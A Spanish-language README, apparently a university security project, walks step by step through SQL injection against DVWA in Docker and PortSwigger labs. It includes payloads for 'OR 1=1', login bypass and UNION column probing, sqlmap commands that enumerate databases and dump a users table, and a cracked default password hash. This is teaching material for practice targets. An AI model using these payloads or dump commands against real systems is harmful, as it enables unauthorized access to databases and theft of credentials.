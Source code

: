 # 🧪 Procedimiento Completo y Replicable - SQL Injection Manual y Automatizada

Este documento contiene todos los pasos, herramientas, comandos y procedimientos utilizados para realizar demostracion de **inyección SQL manual y automatizada**, usando `Burp Suite`, `sqlmap`, `Firefox`, `DVWA` y `Docker` sobre Kali Linux.

---

## 🔧 ENTORNO: Kali Linux

Sistema base utilizado para realizar todas las pruebas. Las herramientas pueden funcionar también en otras distribuciones basadas en Debian con los ajustes adecuados.

---

## ✅ PASO 1: INSTALACIÓN Y CONFIGURACIÓN DE HERRAMIENTAS

### 1. Docker

```bash
sudo apt update
sudo apt install docker.io -y
sudo systemctl start docker
sudo systemctl enable docker
docker --version
```

### 2. Firefox

```bash
sudo apt install firefox-esr -y
```

### 3. Burp Suite Community Edition

```bash
sudo apt install burpsuite -y
burpsuite
```

Configurar Firefox para proxy:
- Host: `127.0.0.1`
- Puerto: `8080`

### 4. sqlmap

```bash
sudo apt install sqlmap -y
sqlmap --version
```

### 5. DVWA (Damn Vulnerable Web Application)

```bash
sudo docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

---

## 📘 PASO 2: CONFIGURACIÓN DE DVWA

1. Acceder a `http://localhost`
2. Crear base de datos (`Create / Reset Database`)
3. Login: `admin / password`
4. Ir a “DVWA Security” y seleccionar `Low`

---

## 🧪 PASO 3: EJERCICIOS Y FASES DE ATAQUE

### 🔹 Ejercicio 1: SQLi - Retrieve Hidden Data (PortSwigger)

1. Visitar `/filter?category=Gifts`
2. Interceptar y modificar parámetro en Burp Suite:
```sql
Gifts'+OR+1=1--
```
3. Validar visualización de productos ocultos

---

### 🔹 Ejercicio 2: Login Bypass (PortSwigger)

1. Enviar en login:
```
Usuario: administrator'--
Contraseña: cualquier valor
```
2. Validar acceso sin credenciales

---

### 🔹 Ejercicio 3: UNION SELECT – Column Discovery (PortSwigger)

1. Visitar:
```
/filter?category=Accessories
```
2. Probar payloads:
```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
3. Identificar el número correcto de columnas cuando no hay error

---

## 🔹 Ejercicio 4 Detallado: SQL Injection Automatizada con sqlmap (DVWA)

### 🐳 Preparación del Entorno

```bash
sudo docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

- Acceder a `http://localhost`
- Crear DB → Login (`admin/password`) → Seguridad en Low

---

### 🧭 Fases del Ataque Automatizado

#### 1. Obtener PHPSESSID desde Firefox

- F12 → Storage → Cookies → Copiar valor

#### 2. Enumerar bases de datos

```bash
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="PHPSESSID=XYZ; security=low" --dbs
```

#### 3. Listar tablas de `dvwa`

```bash
sqlmap -u ... -D dvwa --tables
```

#### 4. Extraer tabla `users`

```bash
sqlmap -u ... -D dvwa -T users --dump
```

#### 5. Crackeo de hashes (responder `y`)

```
Hash: 5f4dcc3b5aa765d61d8327deb882cf99 → password
```

---

### 📁 Archivos generados por sqlmap

```bash
~/.local/share/sqlmap/output/localhost/
├── dump/
├── logs/
└── session files
```

---

## 🔧 HERRAMIENTAS ADICIONALES RECOMENDADAS

```bash
sudo apt install john -y
sudo apt install hash-identifier -y
sudo apt install nmap -y
sudo apt install wireshark -y
```

---

## 👤 Autor

**Cesar Ernesto Perdomo Guerrero**  
Proyecto Final SDR UDB - Seguridad de bases de datos Inyecciones SQL Manuales y Automatizadas
